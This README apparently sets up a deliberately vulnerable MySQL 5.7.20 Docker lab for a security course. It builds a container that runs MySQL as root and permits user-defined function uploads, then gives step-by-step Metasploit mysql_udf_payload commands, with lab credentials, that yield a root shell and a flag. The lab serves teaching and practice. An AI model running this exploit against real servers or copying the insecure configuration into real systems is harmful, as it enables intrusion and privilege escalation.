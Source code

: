 # Overview
These instructions will create a MySQL 5.7.20 instance inside a Docker container on a Ubuntu 22.04 server. The server is vulnerable to the /multi/mysql/mysql_udf_payload exploit in Metasploit. The MySQL service is running as root, allowing an attacker to gain privilege escalation on the target system. I shouldn't have to say this out loud, but this should ABSOLUTELY NOT under any circumstances be used in a production environment.
# Setup
1. Download files to build container
    ```
    $ wget https://raw.githubusercontent.com/TechGeek001/netsec-db/main/netsecdb-UbuntuServerX86-64.sh
    $ chmod +x netsecdb-UbuntuServerX86-64.sh
    $ ./netsec-db-UbuntuServerX86-64.sh
    ```
2. Navigate to the newly created directory and build the Docker container
    ```
    $ cd netsecdb/UbuntuServerX86-64
    ```
3. Build and run the Docker container
    ```
    $ docker build -t tnetsecdb .
    $ docker run -d --name netsecdb --dns 192.168.25.10 --dns-search netsec-docker.isi.jhu.edu --privileged --network host tnetsecdb:latest
    ```
4. Exec into the Docker container
    ```
    $ docker exec -it netsecdb bash
    ```
5. Finish configuring MySQL (this can't be done during the build)
    ```
    # cd /root
    # chmod +x setup.sh
    # ./setup.sh
    ```
    This script creates a user, allows it to access MySQL both locally and remotely, and gives it permission to upload and execute user-defined functions
# Exploit
This procedure was tested on Kali Linux 22.04 using Metasploit Framework 6.4.2-dev
1. Start the MSF Console
   ```
   $ sudo msfconsole
   ```
2. Select the desired exploit
    ```
    > use exploit/multi/mysql/mysql_udf_payload
    ```
3. Set the correct options. In this example, the attacker is 1.1.1.1 and the victim is 2.2.2.2
    ```
    > set LHOST 1.1.1.1
    > set SRVHOST 1.1.1.1
    > set RHOST 2.2.2.2
    > set USERNAME tiaan.jerjerrod
    > set PASSWORD doubleEFFORT!!
    > set target 1
    > exploit
    ```
    Note: MSF will claim that the exploit fails, but the session is still created. Not sure why this happens.
4. Open the session (in this example, it is session 1) and test to see which user this payload is running as.
    ```
    > sessions -i 1
    > show guid
    Server username: root
    ```
5. The flag is located in ```/home/admin```.
# Notes
1. The MySQL login credentials can be changed by editing ```UbuntuServerX86-64/config_mysql.txt```
2. The flag filename and contents can be changed by editing ```UbuntuServerX86-64/Dockerfile``` below the ```#this is the flag``` comment
